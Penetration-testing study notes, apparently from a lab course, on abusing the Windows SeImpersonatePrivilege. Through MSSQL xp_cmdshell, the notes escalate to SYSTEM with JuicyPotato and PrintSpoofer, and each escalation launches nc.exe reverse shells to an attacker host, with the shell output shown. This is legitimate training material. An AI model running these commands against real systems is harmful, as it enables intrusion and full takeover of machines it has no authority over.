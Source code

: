 # SeImpersonate 
The `SeImpersonatePrivilege` is a powerful security privilege in Microsoft Windows that allows a process to impersonate the security context of another user.

* `SeImpersonatePrivilege` allows a process to perform actions on behalf of another user
* Crucial for scenarios where a server application, such as a web server or a remote desktop service, needs to act on behalf of a client to access resources or perform operations

## How Does Impersonation Work?
1. Token Manipulation
* When a process has `SeImpersonatePrivilege`, it can create a token that represents the security context of another user
* This token can be attached to a thread, allowing that thread to perform actions as if it were the user associated with the token

2. Access Rights
* The thread running with an impersonation token can access resources and perform actions according to the permissions granted to the user represented by the token, rather than the permissions of the process that created the thread

## SeImpersonate Example using JuicyPotato
**Gaining a Foothold**
* An attacker gains access to an SQL server using a privileged SQL user account
* Attacker can execute commands and queries on the SQL server with high privileges

**Windows Authentication**
* SQL server and an IIS web server are configured to use Windows Authentication
* Allows users to log in to these services using Windows Credentials

**Resource Access Requirements**
* SQL server and IIS may need to access additional resources - such as file shares on a network
* To do this, they need to act on behalf of the client that established the connection

In this scenario, the SQL Service service account is running in the context of the default mssqlserver account. Imagine we have achieved command execution as this user using xp_cmdshell using a set of credentials obtained in a logins.sql file on a file share using the Snaffler tool.

### Connecting with MSSQLClient.py
* Using credentials 
* Connect to SQL server instance and confirm our privileges
* Use mssqlclient.py from Impacket toolkit

<pre>SQL > mssqlclient.py sql_dev@10.129.43.30 -windows-auth</pre>

### Enabling xp_cmdshell
* Enable the `xp_cmdshell` stored procedure to run operating system commands
* We can do this via Impacket MSSQL shell by typing `enable_xp_cmdshell`

<pre>SQL> enable_xp_cmdshell</pre>

* Confirm we are indeed running in the context of an SQL service account

<pre>SQL> xp_cmdshell whoami

output                                                                             

--------------------------------------------------------------------------------   

nt service\mssql$sqlexpress01</pre>

### Check Account Privileges
<pre>SQL> xp_cmdshell whoami /priv

SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled   
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled   
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled    
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled    
SeImpersonatePrivilege        Impersonate a client after authentication Enabled    
SeCreateGlobalPrivilege       Create global objects                     Enabled    
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled</pre>

* `SeImpersonatePrivilege` is listed
* Privilege can be used to impersonate a privileged account such as NT AUTHORITY\SYSTEM
* JuicyPotato can be used to exploit the SeImpersonate or SeAssignPrimaryToken privileges 

### Escalating Privileges using JuicyPotato
* Download JuicyPotato.exe binary
* Upload JuicyPotato.exe and nc.exe to the target server
* Setup a netcat listener on port 8443 and execute the command below

<pre>SQL> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *</pre>

`-l 53375` : Specifies the COM server listening port  
`-p c:\windows\system32\cmd.exe` : Program to launch (cmd.exe)  
`-a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe"` : Arguments passed to `cmd.exe` > start `nc.exe` to create a reverse shell to local attacking machine on port 8443  
`-t *` : Tells JuicyPotato to try both `CreateProcessWithToken` and `CreateProcessAsUser` functions

### Catching SYSTEM Shell
<pre>sudo nc -lnvp 8443</pre>

<pre>C:\Windows\system32>whoami

whoami
nt authority\system


C:\Windows\system32>hostname

hostname
WINLPE-SRV01</pre>

## PrintSpoofer and RoguePotato
* JuicyPotato does not work on Windows Server 2019 and Windows 10 build 1809 onwards
* PrintSpoofer and RoguePotato can be used to gain the same privileges and `NT AUTHORITY\SYSTEM` level access

https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/

### Escalating Privileges using PrintSpoofer
* Use the tool to spawn a SYSTEM process in current console and interact with it
* Connect with mssqlclient.py and use tool with the -c argument to execute
* Use nc.exe to spawn a reverse shell
* Netcat listener waiting on port 8443

<pre>SQL> xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"</pre>

### Catching Reverse Shell as SYSTEM
<pre>nc -lnvp 8443

listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.30] 49847
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.


C:\Windows\system32>whoami

whoami
nt authority\system</pre>

